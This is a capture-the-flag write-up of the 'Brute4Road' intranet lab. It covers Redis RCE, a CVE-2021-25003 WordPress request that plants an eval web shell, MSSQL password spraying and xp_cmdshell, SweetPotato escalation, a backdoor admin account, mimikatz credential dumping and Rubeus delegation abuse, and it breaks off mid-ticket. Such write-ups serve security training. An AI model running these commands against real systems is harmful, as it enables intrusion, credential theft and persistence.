# Spring and Autumn Cloud Mirror & Brute4Road

## Target Introduction

`Brute4Road` is a shooting range environment with medium difficulty. Completing this challenge can help players understand the technical methods of proxy forwarding, intranet scanning, information collection, privilege escalation and lateral movement in intranet penetration, strengthen their understanding of the core authentication mechanism of the domain environment, and master some interesting technical points in the domain environment penetration. There are 4 `flags` in this shooting range, distributed in different target machines.

## Attack Process

Using `fscan` for detection, it was found that there were `Redis` unauthorized and `ftp` anonymous login.

```bash
❯ ./fscan -h 39.101.173.141

   ___ _
  / _ \ ___ ___ __ ___ ___ ___ | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__\__ \ (__| | | (_| | (__| <
\____/ |___/\___| \__,_|\___|__|\__\_\
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 39.101.173.141 is alive
[*] Icmp alive hosts len is: 1
39.101.173.141:22 open
39.101.173.141:80 open
39.101.173.141:21 open
39.101.173.141:6379 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.101.173.141 code:200 len:4833 title:Welcome to CentOS
[+] Redis:39.101.173.141:6379 unauthorized file:/usr/local/redis/db/dump.rdb
[+] ftp://39.101.173.141:21:anonymous
   [->]pub
Completed 4/4
[*] Scan ends, time taken: 40.769240917s
```

`Redis` copies `RCE` by master-slave, try to increase the authority of `SUID`, and use `Base64` to read `flag01`: `flag{e038ee37-f0bf-4aea-80ae-e585e01319e1}`.

```bash
# Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'
# SUID License
find / -user root -perm -4000 -print 2>/dev/null
base64 /home/redis/flag/flag01 | base64 -d
```



Pass a `fscan` up and use the `/etc/hosts` file to get the current `IP`.

```bash
[redis@centos-web01 db]$ ./fscan_amd64 -h 172.22.2.7/24
./fscan_amd64 -h 172.22.2.7/24

   ___ _
  / _ \ ___ ___ __ ___ ___ ___ | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__\__ \ (__| | | (_| | (__| <
\____/ |___/\___| \__,_|\___|__|\__\_\
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.7 is alive
(icmp) Target 172.22.2.16 is alive
(icmp) Target 172.22.2.18 is alive
(icmp) Target 172.22.2.34 is alive
(icmp) Target 172.22.2.3 is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:80 open
172.22.2.18:22 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.16:1433 open
172.22.2.3:445 open
172.22.2.34:445 open
172.22.2.18:445 open
172.22.2.16:445 open
172.22.2.34:139 open
172.22.2.3:139 open
172.22.2.34:135 open
172.22.2.16:139 open
172.22.2.18:139 open
172.22.2.3:135 open
172.22.2.16:135 open
172.22.2.7:6379 open
172.22.2.3:88 open
172.22.2.34:7680 open
[*] alive ports len is: 21
start vulscan
[*] NetInfo:
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] NetInfo:
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo:
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] 172.22.2.3 (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.2.16 code:404 len:315 title:Not Found
[*] WebTitle: http://172.22.2.7 code:200 len:4833 title:Welcome to CentOS
[*] NetBios: 172.22.2.3 [+]DC DC.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.2.18 WORKGROUP\UBUNTU-WEB02
[*] NetBios: 172.22.2.16 MSSQLSERVER.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] 172.22.2.16 (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.2.34 XIAORANG\CLIENT01
[+] ftp://172.22.2.7:21:anonymous
   [->]pub
[*] WebTitle: http://172.22.2.18 code:200 len:57738 title: Another WordPress site
Completed 20/21 [-] redis 172.22.2.7:6379 redis123 <nil>
Completed 20/21 [-] redis 172.22.2.7:6379 123456!a <nil>
Completed 20/21 [-] redis 172.22.2.7:6379 1qaz!QAZ <nil>
Completed 21/21
[*] Scan ends, time taken: 3m40.368271949s
```

Continue to upload the `Stowaway` proxy, use `wpscan` to scan `http://172.22.2.18/`, and find that the `wpcargo` plug-in exists.



Try to hit the `wpcargo` unauthorized `RCE` vulnerability (`CVE-2021-25003`).

```html
POST
http://172.22.2.18/wp-content/wp-conf.php?1=system
2=echo%20PD9waHAgcGhwaW5mbygpO0BldmFsKCRfUkVRVUVTVFsxXSk7Pz4%3D%7Cbase64%20-d%20%3E%3E%20shell.php
```



Ant Sword Connection, in `/var/www/html/wp-c
I found the database information in onfig.php`. I wanted to use the ant sword to directly connect to the database, but the reading data was stuck. I uploaded the Ice Scorpion Horse to manually check the data. I got a lot of passwords in the table `S0meth1ng_y0u_m1ght_1ntereSted`. I got `flag02` in the table `flag02`: `flag{c757e423-eb44-459c-9c63-7625009910d8}`.



````sql
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'WpuserEha8Fgj9' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

````sql
select * from flag02
select * from S0meth1ng_y0u_m1ght_1ntereSted
```





Try to spray the MSSQL` password of MSSQLSERVER.xiaorang.lab` using the password obtained in the table `S0meth1ng_y0u_m1ght_1ntereSted`, and get the username password `sa`/`ElGNkOiC`.

```bash
fscan -h 172.22.2.16 -m mssql -pwdf password.txt -np
```



Using `xp_cmdshell` to attack, it was found that it was a low-privileged `nt service\mssqlserver`, and tried to use `SweetPotato` to increase the authority.

````sql
# determine the status of xp_cmdshell, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# Use xp_cmdshell to execute commands
exec master..xp_cmdshell 'whoami'
```





Get `flag03` in `C:\Users\Administrator\flag\flag03.txt`: `flag{fe8c0f90-0746-401f-b9a9-fae5febfcf23}`.



Add the backdoor user and go up `RDP`.

```bash
C:/Thunder Download/SweetPotato.exe -a "net user hacker qwer1234! /add"
C:/Thunder Download/SweetPotato.exe -a "net localgroup administrators hacker /add"
```



Since it is in the domain, pass `mimikatz` to read the domain credentials (run with administrator privileges).

```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
```



The `MSSQLSERVER` machine is configured with binding delegation to the `DC LDAP` and `CIFS` services

Apply for the `TGT` of the machine account `MSSQLSERVER` through `Rubeus`, and after execution, you will get the `Base64` encrypted `TGT` bill, and issue a constraint delegation.

```bash
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:2ca0385029df93de663835be3da5b59f /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```



Then use the `S4U2Self` extension to request tickets for the domain control `LDAP` service on behalf of the domain administrator `Administrator` and pass the resulting tickets into memory.

```bash
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE3jKb28q5AaZvSICmIuTvw+gGO6VY0ZsYqQV/6hkwu6dtEx7paCDKv4957VB WMojOXta2KNNShGReVvjclbWMh2bO4Qs5Hn/tyY3lvwQshUKGzQ94T8OJlGmZXzaaYs9lCa8KLUlFZTbUO2a/Gv3BqNLLZ921ASLvF/km6wdZLb1QuymCiI6XvHOpALUc2WWs72X2Sd0MG3n3NG89YQZaXChm4ozUHBNuBj7op5c4SlA2lh8p6ufvVXNHYxNPlKIwR6ftnBxbRagYVvAryOnZ0Qq+ UOmjbk1xNw/DNsPbtbjZnwc5pNQVfbTq7hldG+QElsQ4QD+fpdZzHB+Vns9Sp6FlFtu3uVFgXnZ5ag7kosZ4biM7XEuNc8hLwZgTmIY/vkGe8Qbejz4Q8gzObnuTYXPFAeE2oBBOHWDUT4wWZMD1STdTtMx1kCE+5GGl59nzxEZ0ICTIo89FKKrHA8oAZRYinUaLvvy3lpWVtmiEcBujDEIX0A+Sw 